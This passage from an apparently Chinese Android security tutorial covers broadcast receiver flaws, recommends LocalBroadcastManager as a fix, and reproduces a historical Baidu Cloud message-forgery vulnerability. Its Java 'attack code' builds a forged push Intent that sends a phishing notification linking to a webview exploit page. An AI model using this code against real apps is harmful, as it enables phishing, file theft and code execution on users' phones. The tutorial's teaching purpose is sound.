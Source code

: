 就可以成功解锁：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_H3PEZ42MEVJBX5Q.png)

 

**修复：**

```
推荐使用呢LocalBroadcastManager类,这个类相较于Context.sendBroadcast(intent)有下面三方面的优势：
1.不用担心敏感数据泄露，通过这种方式发送的广播只能应用内接收。
2.不用担心安全漏洞被利用，因为其他应用无法发送恶意广播给你。
3.它比系统的全局广播更高效。

```

### 3. 消息伪造

#### [](#（1）漏洞介绍)（1）漏洞介绍

```
暴露的Receiver对外接收Intent，如果构造恶意的消息放在Intent中传输，被调用的Receiver接收可能产生安全隐患

```

#### [](#（2）漏洞复现)（2）漏洞复现

案例 1：[百度云盘手机版钓鱼、信息泄露和代码执行高危漏洞三合一](https://wooyun.x10sec.org/static/bugs/wooyun-2013-039801.html)

 

漏洞描述：

```
百度云盘手机版存在高危漏洞，恶意攻击者通过该漏洞可以对手机用户进行钓鱼欺骗，盗取用户隐私文件和信息，以百度云盘APP权限执行任何代码。百度云盘有一个广播接收器没有对消息进行安全验证，通过发送恶意的消息，攻击者可以在用户手机通知栏上推送任意消息，点击消息后可以利用webview组件盗取本地隐私文件和执行任意代码。
存在漏洞的组件是：com.baidu.android.pushservice.action.MESSAGE

```

攻击代码：

```
Intent i = new Intent();
 i.setAction("com.baidu.android.pushservice.action.MESSAGE")；
 Bundle b = new Bundle();
 try {
     JSONObject jsobject = new JSONObject();
//1. phishing
     JSONObject custom_content_js = new JSONObject();
     jsobject.put("title", "百度云盘【漏洞你中奖了！】");
     jsobject.put("description", "");
     //jsobject.put("url", "http://bcscdn.baidu.com/netdisk/BaiduYun_5.1.0.apk");
     jsobject.put("url", "http://drops.wooyun.org/webview.html");
     JSONObject customcontent_js = new JSONObject();          
     customcontent_js.put("type", "1");
     customcontent_js.put("msg_type", "resources_push");
     customcontent_js.put("uk", "1");
     customcontent_js.put("shareId", "1");     
     jsobject.put("custom_content", customcontent_js);      
     String cmd  = jsobject.toString();
     b.putByteArray("message", cmd.getBytes("UTF-8"));
 } catch (Exception e) {
     // TODO Auto-generated catch block
     e.printStackTrace();
 }

```
